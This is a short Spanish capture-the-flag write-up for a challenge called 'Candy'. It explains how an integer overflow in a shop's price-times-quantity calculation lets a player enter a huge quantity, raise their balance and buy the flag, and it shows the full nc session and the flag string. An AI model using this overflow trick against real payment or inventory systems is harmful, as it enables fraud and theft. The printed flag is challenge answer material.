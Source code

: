# Candy

Este era un integer overflow, cuando compras un objeto hace el calculo nuevo_saldo = tu_saldo - precio * cantidad

Si tu introduces una cantidad muy grande la variable se queda en negativo y queda nuevo_saldo = tu_saldo - (-resultado) = tu_saldo + (precio * cantidad)

Escogiendo un numero mas grande que INT_MAX (2147483647) se trunca:

```
nc codevincictf.itis.pr.it 9961

Welcome to the candy shop! Your current balance is: 10.00€
1. Pop Candy - 2.50€
   A pop candy that cracks in your mouth.
2. Pop Candy - 2.50€
   A pop candy that cracks in your mouth.
3. Mint Candy - 1.20€
   A fresh mint candy for a cool breath.
4. Flag - 100.00€
   Special CodeVinci's Flag

Choose an item (1-4) or 0 to exit: 1

You selected: Pop Candy
Description: A pop candy that cracks in your mouth.
Price: 2.50€
How many would you like: 214748364700
Quantity cannot be negative.
How many would you like: 2147483647000
You chose -1000 of Pop Candy. Your balance is now 2510.00€

Welcome to the candy shop! Your current balance is: 2510.00€
1. Pop Candy - 2.50€
   A pop candy that cracks in your mouth.
2. Pop Candy - 2.50€
   A pop candy that cracks in your mouth.
3. Mint Candy - 1.20€
   A fresh mint candy for a cool breath.
4. Flag - 100.00€
   Special CodeVinci's Flag

Choose an item (1-4) or 0 to exit: 4

You selected: Flag
Description: Special CodeVinci's Flag
Price: 100.00€
Congratz: CodeVinciCTF{U_br0k3_mY_5h0p_d2qx7}
```

`CodeVinciCTF{U_br0k3_mY_5h0p_d2qx7}`

